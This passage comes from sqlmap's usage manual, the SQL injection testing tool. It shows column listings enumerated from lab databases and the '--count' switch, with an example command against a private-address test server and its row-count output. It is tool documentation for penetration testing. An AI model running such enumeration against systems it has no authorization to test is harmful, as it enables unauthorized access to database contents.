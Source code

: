 ```
+--------------+----------+
| Column       | Type     |
+--------------+----------+
| date         | datetime |
| blogger_name | text     |
| cid          | int(11)  |
| comment      | text     |
+--------------+----------+

Database: owasp10
Table: hitlog
[6 columns]
+----------+----------+
| Column   | Type     |
+----------+----------+
| date     | datetime |
| browser  | text     |
| cid      | int(11)  |
| hostname | text     |
| ip       | text     |
| referer  | text     |
+----------+----------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
[...]
```

### Retrieve number of entries for table(s)

Switch: `--count`

In case that user wants just to know the number of entries in table(s) prior to dumping the desired one, he can use this switch.

Example against a Microsoft SQL Server target:

```
$ python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1"\
 --count -D testdb
[...]
Database: testdb
+----------------+---------+
| Table          | Entries |
+----------------+---------+
| dbo.users      | 4       |
| dbo.users_blob | 2       |
+----------------+---------+
```
